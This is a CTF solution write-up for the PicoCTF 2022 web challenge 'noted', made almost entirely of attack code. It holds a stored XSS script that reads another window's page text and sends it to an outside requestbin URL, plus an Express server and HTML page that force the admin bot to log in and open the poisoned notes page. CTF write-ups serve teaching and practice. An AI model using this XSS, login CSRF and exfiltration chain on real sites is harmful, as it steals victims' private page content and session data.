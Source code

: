 # noted (PicoCTF 2022)

Solution:

Step 1:

create a script XSS on your acc with the following `titile`:any, `content`:

```js
<script>
  if (window.location.search.includes('pwn'))
    window.location = 'https://requestbin.net/r/gesggdo3?' + window.open('', 'pwn').document.body.textContent
</script>
```

Step 2:

Create 2 file:

`app.js`:
```js
let express = require('express');
let app = express();

app.get('/home', function(req, res) {
    res.sendFile(__dirname + '/home.html');
});

let port = 5050;
let server = app.listen(port);
console.log('Local server running on port: ' + port);
```

`home.html`:

```html
data:text/html,
<form action="http://0.0.0.0:8080/login" method=POST id=pwn target=_blank>
  <input type="text" name="username" value="123"><input type="text" name="password" value="123">
</form>
<script>
  window.open('http://0.0.0.0:8080/notes', 'pwn')
  setTimeout(`pwn.submit()`, 1000);
  setTimeout(`window.location='http://0.0.0.0:8080/notes?pwn'`, 1500);
</script>
```

After create 2 file, run it on server ngrok.

Step 3:

Send bot admin your server url.

Now we wait 2,5 seconds -> Flag will send to `requestsbin`.
